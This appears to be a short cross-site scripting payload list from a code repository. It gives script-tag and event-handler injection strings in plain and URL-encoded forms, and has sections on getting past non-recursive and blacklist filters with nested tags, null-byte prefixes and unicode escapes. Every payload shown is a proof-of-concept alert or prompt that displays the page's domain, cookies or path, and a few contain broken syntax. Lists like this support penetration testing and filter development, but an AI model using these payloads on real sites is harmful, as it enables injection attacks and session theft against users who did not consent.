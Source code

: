 ######## XSS_Example_Basic #############

===== Testing for Cross site scripting ====

“><script>alert(document.domain)</script>

<script>alert(persiste el XSS)</script>

<script>alert("vulnerable a XSS");</script>

%3Cscript%3Ealert(%22vulnerable%20a%20XSS%22);%3C/script%3E 

===== encoder ================

“><script>alert(document.cookie)</script>

“><script>alert(document.cookie)</script>

“%3cscript%3ealert(document.cookie)%3c/script%3e

1" onmouseover=prompt(document.domain) bad="

1" onmouseover=prompt(window.location.pathname) bad="

1" onmouseover=prompt(mywin.document.write("This is Child Window");) bad="

=========== Bypass non-recursive filtering  ===========

<input type="search" onsearch="aler\u0074(1)">

<scr<script>ipt>alert(document.cookie)</script>

=========== bypass blacklist filter ===================

%00<script>alert(vulnerable a XSS)</script>

<scr<script>ipt>alErT("vulnerable a XSS");</scr<script>ipt>

1" onmouseover=alErT("vulnerable a XSS"); bad="
